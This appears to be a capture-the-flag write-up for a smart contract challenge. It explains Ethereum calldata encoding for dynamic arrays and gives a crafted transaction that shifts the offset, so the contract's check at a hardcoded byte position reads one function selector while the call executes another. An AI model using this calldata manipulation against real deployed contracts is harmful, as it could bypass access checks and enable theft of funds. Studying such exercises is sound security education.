 # Logic
Hint: Calldata encoding for dynamic arrays

# Calldata encoding
For dynamic types the calldata encoding is the following:
1. first 32-bytes are for offset
2. next 32 bytes are for the length
3. and next are for the values

Example:
```
0x
30c13ade
0000000000000000000000000000000000000000000000000000000000000020
0000000000000000000000000000000000000000000000000000000000000004
20606e1500000000000000000000000000000000000000000000000000000000
```

`30c13ade` -> function selector
`0000000000000000000000000000000000000000000000000000000000000020` -> offset
`0000000000000000000000000000000000000000000000000000000000000004` -> length
`20606e1500000000000000000000000000000000000000000000000000000000` -> value

offset indicates the start bytes of the data. In this example `20` hex = `32` decimal. So the data starts after the first 32 bytes.
```
0000000000000000000000000000000000000000000000000000000000000020
^
| -> counting 32 bytes from here

0000000000000000000000000000000000000000000000000000000000000004
20606e1500000000000000000000000000000000000000000000000000000000
```

We can see that the check is made at a hardcoded value, `68`. So the solution is to move the data that is checked from the data that is used to make the call


# Solution
await sendTransaction({from: player, to: contract.address, data:"0x30c13ade0000000000000000000000000000000000000000000000000000000000000060000000000000000000000000000000000000000000000000000000000000000020606e1500000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000476227e1200000000000000000000000000000000000000000000000000000000"})

Explanation:

`30c13ade` -> function selector
`0000000000000000000000000000000000000000000000000000000000000060` -> offset, now = 96-bytes
`0000000000000000000000000000000000000000000000000000000000000000` -> extra bytes
`20606e1500000000000000000000000000000000000000000000000000000000` -> here is the check at `68` byte, but it is not relevant for the call
`0000000000000000000000000000000000000000000000000000000000000004` -> length of the data
`76227e1200000000000000000000000000000000000000000000000000000000` -> data that contains the selector
```